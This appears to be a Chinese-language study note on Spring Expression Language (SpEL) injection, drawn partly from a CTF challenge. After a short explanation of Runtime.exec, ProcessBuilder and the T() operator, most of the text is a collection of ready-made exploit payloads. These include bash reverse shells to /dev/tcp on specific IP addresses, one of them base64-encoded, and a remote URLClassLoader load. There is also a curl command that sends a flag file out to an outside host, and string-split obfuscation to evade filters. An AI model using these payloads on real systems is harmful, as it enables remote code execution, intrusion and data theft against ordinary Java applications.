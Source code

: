 ## 原理

Spring 表达式语言（简称“SpEL”）是一种强大的表达式语言，支持在运行时查询和操作对象图，但提供方法调用和基本的字符串模板功能，有点类似php中的eval，但不是执行任意代码，以下是一段会执行的spel的示例代码

```
public class test {
    static String val = "new java.lang.ProcessBuilder(\"calc\").start()";//将会执行的代码

    public static void main(String[] args) {
        spel(val);
    }
    public static String spel(String input){
        SpelExpressionParser parser = new SpelExpressionParser(); // 创建 SpEL 表达式解析器
        Expression exp = parser.parseExpression(input);// 解析输入的表达式
        String result = exp.getValue().toString();///执行命令，获取表达式执行结果，并将其转换为字符串，
        return result;
    }
}
```

![image-20231218211318117](F:\笔记\WEB\Java\SpEl命令执行.assets\image-20231218211318117.png)

能执行的语句：

在linux中Runtime中exec对复杂一点的命令执行不了,我们需要将其参数改成如下

```
new String[]{"/bin/bash\","-c","xxxxx"}
```

推荐一个网站[Runtime.exec Payload Generater | AresX's Blog (ares-x.com)](https://ares-x.com/tools/runtime-exec)

![image-20231218210130042](SpEl命令执行.assets\image-20231218210130042.png)



## ①

在JAVA中利用`Runtime`和`ProcessBuilder`类来使用Java执行Shell命令和脚本

```java
Process process = Runtime.getRuntime().exec("ping");
```

`T` 是 Spring Expression Language（SpEL）中的一个特殊运算符，用于获取类的引用，通过 `T` 运算符，可以在 SpEL 中访问类的静态方法、字段和嵌套类`T(java.lang.Runtime)` 表示获取 `java.lang.Runtime` 类的引用，然后使用这个引用来调用 `getRuntime()` 方法

```java
T(java.lang.Runtime).getRuntime().exec('calc.exe')
    
T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDcuKioqLioqKi85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")
```

#### 注意

exec只能以字符串数组的形式执行命令

```
String[] command = {"bash","-c","bash -i >& /dev/tcp/8.130.20.254/12345 0>&1"};
Process process = Runtime.getRuntime().exec(command);
```

https://www.jianshu.com/p/ae3922db1f70

## ②

`new ProcessBuilder()`: 创建一个 `ProcessBuilder` 对象，用于构建和启动一个新的进程。构造函数接受一个字符串数组，其中包含要执行的命令和参数，`.start()`: 调用 `ProcessBuilder` 对象的 `start()` 方法来启动新进程，该进程将执行给定的命令

```
new java.lang.ProcessBuilder("calc").start()

((ProcessBuilder)Class.forName("java.lang.ProcessBuilder").getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
```

## ③

`java.io.BufferedReader()`: 创建一个 `BufferedReader` 对象，用于缓冲字符输入流并提供更方便的读取方法

`java.io.InputStreamReader()`: 创建一个 `InputStreamReader` 对象，它用于将输入流的字节转换为字符，可以使用 `gbk` 字符编码来读取流中的字符

`.getInputStream()`: 获取新进程的标准输出流，用于从进程读取输出的流

```java
payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
    
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

## ④

其它的一些poc

```
"T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")"
```

```
"new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()"
```

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

```
${new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()}
```



#### trick：

来自p神的题目Code-Breaking Puzzles — javacon：https://www.leavesongs.com/media/attachment/2018/11/23/challenge-0.0.1-SNAPSHOT.jar

```
package com.example.p_challenge;

import com.example.p_challenge.tool.UserConfig;

public class exp {
    public static void main(String[] args) {
        String payload="#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl http://8.130.20.254:12345/`cat /flag|base64|tr '\\n' '-'`\"})}";
        UserConfig userConfig = new UserConfig();
        userConfig.username=payload;
        System.out.println(userConfig.encryptRememberMe());
    }
}
我们正常执行方法是 [1].method([2], [3], [4]...) ，其实在反射里就是method.invoke([1], [2], [3], [4]...)
其他的：
可以将T(String)换为''

#{T(javax.script.ScriptEngineManager).newInstance()
    .getEngineByName("nashorn")
        .eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/2333;cat <&5 | while read line; do $line 2>&5 >&5; done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}

这里为什么需要加#{…} 呢：
#{…} SpEL使用 #{...} 作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式,用于执行SpEl表达式，并将内容赋值给属性
${…} 主要用于加载外部属性文件中的值
```

改变remember-me的值，服务器上就可以收到请求

![image-20231218211823043](F:\笔记\WEB\Java\SpEl命令执行.assets\image-20231218211823043.png)



推荐博客：https://boogipop.com/2023/08/06/SPEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93%E5%8F%8A%E5%9B%9E%E6%98%BE%E6%8A%80%E6%9C%AF/#ClassLoader

https://www.cnblogs.com/bitterz/p/15206255.html#%E5%89%8D%E8%A8%80

http://rui0.cn/archives/1043
